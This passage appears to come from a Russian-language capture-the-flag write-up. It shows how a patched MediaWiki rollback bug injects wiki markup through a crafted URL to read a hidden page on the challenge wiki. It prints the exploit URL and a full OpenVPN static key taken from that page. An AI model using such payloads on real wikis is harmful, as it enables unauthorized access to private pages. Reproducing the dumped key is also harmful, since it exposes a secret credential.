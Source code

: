 Тут вообще какое-то комбо собирается из них, и все эти уязвимости объединены общей идеей — инъекцией викиразметки в те поля, которые её не должны принимать.

Все эти уязвимости были запатчены в декабре 2021 года, о чем рассказывают в [FAQ по этому обновлению](https://www.mediawiki.org/wiki/2021-12_security_release/FAQ). Самая интересная часть в том, что на этой странице максимально просто написано, как эти уязвимости могли быть проэксплуатированы и как их определять по логам.

Самая простая из уязвимостей для эксплуатации — rollback bug. Он выглядит примерно так:
```
https://example.wiki/Заглавная_страница?action=rollback&from={{:Скрытая_страница}}
```

Используем rollback bug чтобы получить данные из ссылок с главной страницы. На странице [Внутренние Ресурсы](https://internal-wiki.teemoorka.network/index.php/%D0%97%D0%B0%D0%B3%D0%BB%D0%B0%D0%B2%D0%BD%D0%B0%D1%8F_%D1%81%D1%82%D1%80%D0%B0%D0%BD%D0%B8%D1%86%D0%B0?action=rollback&from={{:%D0%92%D0%BD%D1%83%D1%82%D1%80%D0%B5%D0%BD%D0%BD%D0%B8%D0%B5_%D0%A0%D0%B5%D1%81%D1%83%D1%80%D1%81%D1%8B}}) находим адрес VPN-сервера и статический ключ.

Ключ:
```
#
# 2048 bit OpenVPN static key
#
-----BEGIN OpenVPN Static key V1-----
7524094f83ca2f0f2744ac3ad80749ef
d0245ac495dae4294837a17010d82715
8f2fd80cc3c866e16e282e7f6b8152dd
e62b6cf7055a2c5e3da36f6f2ee18ca7
757b279aa373ae4777b7068eca43a97c
23b209c0a03efe002ca834773867c0af
cbe47ad95bfc98d370ea48b16ac220e4
4ccab77fbf796d76f5efdad7a5bb5641
235ea69a6b66e3b0d50af2476b4fa19e
acf94eee59b16618704497577e7afd10
f328c65ce4dd996ada342515b30ef59b
45932c2010a8c2ebad0a410700592ca3
97aaae9707ea5c2661c4d46aba709feb
4573731c334ece77d547b4a89b971ac5
b97000e3984995d66136e564a3f6e365
1273bec35936b7a590b33302c1850e3f
-----END OpenVPN Static key V1-----
```

Ответ: **vpn-scale-process-gush-identity.teemoorka.network**

## Подключение к VPN

Попробуем подключиться к VPN-серверу. Обычно OpenVPN просит какой-то конфигурационный файл, но у нас пока что ничего нет.

Страница на вики, из которой был получен адрес VPN-а обещает инструкцию по подключению на этой самой вики, но её там просто нет — ни в какой странице из `{{:Служебная:Все_страницы}}`, да и в логах удаления тоже нет полезной информации.
